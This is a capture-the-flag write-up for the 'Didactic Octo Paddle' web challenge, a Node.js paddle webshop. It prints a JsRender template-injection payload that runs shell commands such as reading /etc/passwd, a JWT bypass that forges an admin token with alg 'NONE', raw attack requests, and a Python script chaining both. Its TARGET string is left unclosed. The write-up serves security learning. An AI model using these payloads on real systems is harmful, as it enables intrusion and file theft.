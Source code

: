 ## Didactic Octo Paddle :: Medium

#### Scenario

```
You have been hired by the Intergalactic Ministry of Spies to retrieve a powerful relic that is believed to be hidden within the small paddle shop, by the river.
You must hack into the paddle shop's system to obtain information on the relic's location.
Your ultimate challenge is to shut down the parasitic alien vessels and save humanity from certain destruction by retrieving the relic hidden within the Didactic Octo Paddles shop.
```

#### Solve

![](/images/didactic-source-tree.png)


The challenge begins with a login prompt.
![](/images/didactic-login.png)

While looking at the routes defined in the `index.js` file, we stumble upon a `/register` route that let's us create a user.

![](/images/didactic-register.png)

We create a user.

![](/images/didactic-user-created.png)

We can then login and see the store:

![](/images/didactic-webshop.png)

It seems like they're selling litteral paddles.
It is a webshop.

##### Obtaning RCE

There is an admin page at `/admin`, this page seems to list the existing users.

Here is the code of the `admin.jsrender` file:
```html
<!DOCTYPE html>
<html lang="en">

<head>
  <meta charset="UTF-8" />
  <title>Admin Dashboard</title>
  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
  <link rel="icon" href="/stat/images/favicon.png" />
  <link href="https://cdn.jsdelivr.net/npm/bootswatch@5.2.3/dist/cerulean/bootstrap.min.css" rel="stylesheet" />
  <link href="https://fonts.googleapis.com/css2?family=Press+Start+2P&display=swap" rel="stylesheet" />
  <link rel="stylesheet" type="text/css" href="/static/css/main.css" />
</head>

<body>
  <div class="d-flex justify-content-center align-items-center flex-column" style="height: 100vh;">
    <h1>Active Users</h1>
    <ul class="list-group small-list">
      {{for users.split(',')}}
        <li class="list-group-item d-flex justify-content-between align-items-center ">
          <span>{{>}}</span>
        </li>
      {{/for}}
    </ul>
  </div>
</body>

</html>
```

Here is the code for the `/admin` route.

```javascript
    router.get("/admin", AdminMiddleware, async (req, res) => {
        try {
            const users = await db.Users.findAll();
            const usernames = users.map((user) => user.username);

            res.render("admin", {
                users: jsrender.templates(`${usernames}`).render(),
            });
        } catch (error) {
            console.error(error);
            res.status(500).send("Something went wrong!");
        }
    });
```

There is actually an SSTI vulnerability here.
The `jsrender.templates` function templates the given string.
This can actually lead to RCE as detailed in this article:

- https://appcheck-ng.com/template-injection-jsrender-jsviews
- https://www.jsviews.com/#htmltag

```http
POST /register HTTP/1.1
Host: 10.18.232.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://138.68.143.81:30500/register
Content-Type: application/json
Origin: http://138.68.143.81:30500
Content-Length: 40
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MiwiaWF0IjoxNjc5MTQ5NDYyLCJleHAiOjE2NzkxNTMwNjJ9.0_s2fX-jd31nc6fNFQwRZktx-UQm9GnBxK8CvsOct2k

{"username":"{{:7*7}}","password":"gh0st"}
```

This request will cause 49 to appear on the admin's page.
Now, one question arises, is admin a bot or do we have to elevate ?

```javascript
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
```

This works, it gets RCE on my local instance.
Now time to figure out the admin situation.

##### Obtaining Admin

While reading the source for `AdminMiddleware.js`, I found a weird condition on the JWT's `alg` value.
Here is the condition:
```javascript
// alg == none --> Login
// alg == HS256 --> decode with secret
// else --> Just decode i guess ?

    if (decoded.header.alg == 'none') {
        return res.redirect("/login");
    } else if (decoded.header.alg == "HS256") {
        const user = jwt.verify(sessionCookie, tokenKey, {
            algorithms: [decoded.header.alg],
        });
        if (
            !(await db.Users.findOne({
                where: { id: user.id, username: "admin" },
            }))
        ) {
            return res.status(403).send("You are not an admin");
        }
    } else {
        const user = jwt.verify(sessionCookie, null, {
            algorithms: [decoded.header.alg],
        });
        if (
            !(await db.Users.findOne({
                where: { id: user.id, username: "admin" },
            }))
        ) {
            return res
                .status(403)
                .send({ message: "You are not an admin" });
        }
    }
```

Maybe I can dodge signature validation ?

Something like a default value for it, or specifying an unsafe algorithm.

While tinkering with this condition locally, I found an authentication bypass.

The condition is that the `decoded.header.alg` value equals the string `'none'`.
There could be a way to bypass this, if the underlying library normalizes the `alg` values coming in the `verify` function.

This is how we bypass it, we simply specify the `alg` as `'NONE'` instead.
This goes through to the `else`, which decodes the value and treats the token as valid.

Using this, we can craft an administrator token.

Here is our JWT:
```json
{"alg":"NONE","typ":"JWT"}{"id":1,"iat":1679153124,"exp":1679156724}
```
`alg`: `"NONE"` will bypass the condition.
`id`: 1 represents the administrator user.

We encode it:
```
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9.
```

HERE WE GOOOOO :
```http
GET /admin HTTP/1.1
Host: 10.18.232.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9.;
Upgrade-Insecure-Requests: 1

```

```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 1020
Date: Fri, 24 Mar 2023 01:45:03 GMT
Connection: close

<!DOCTYPE html>

//snip //
```

Now that we can visit the admin page, we can put it all together and create a malicious user to extract the flag.

The below script automates this process.

#### Script

```python
#!/usr/bin/env python3
import requests

TARGET = "http://127.0.0.1:1337
ADMIN_ENDPOINT = "/admin"
AUTH_BYPASS_SESSION = "eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJpZCI6MSwiaWF0IjoxNjc5MTUzMTI0LCJleHAiOjE2NzkxNTY3MjR9."
REGISTER_ENDPOINT = "/register"
JSRENDER_SSTI = \
        "{{:\"pwnd\".toString.constructor.call({},\"return global.process.mainModule.constructor._load('child_process').execSync('cat /flag.txt').toString()\")()}}"


if __name__ == "__main__":
    s = requests.Session()
    r = requests.post(TARGET + REGISTER_ENDPOINT, json={"username": JSRENDER_SSTI, "password": "O0ops"})
    s.cookies.set("session", AUTH_BYPASS_SESSION, domain="127.0.0.1")
    flag = s.get(TARGET + ADMIN_ENDPOINT)
    print(flag.text)
```

